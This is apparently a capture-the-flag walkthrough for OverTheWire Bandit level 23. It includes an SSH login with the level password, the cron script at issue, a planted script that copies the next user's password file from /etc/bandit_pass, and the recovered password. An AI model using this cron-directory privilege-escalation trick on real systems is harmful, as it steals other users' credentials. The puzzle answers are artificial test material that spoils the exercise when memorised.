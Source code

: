 # Over The Wire -- Bandit 23

## Server
```
sshpass -p jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n ssh -p 2220 -oStrictHostKeyChecking=no bandit23@bandit.labs.overthewire.org 
```

## Solution
Again,
We look at cronjobs in `/etc/cron.d` as suggested.

We find `cronjob_bandit24`. it call the script `/usr/bin/cronjob_bandit24.sh`
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

So it execute every script i place in `/var/spool/bandit24`.
We place this script in there :
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24.password
```

And retrieve the password `cat /tmp/bandit24.password`:
```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
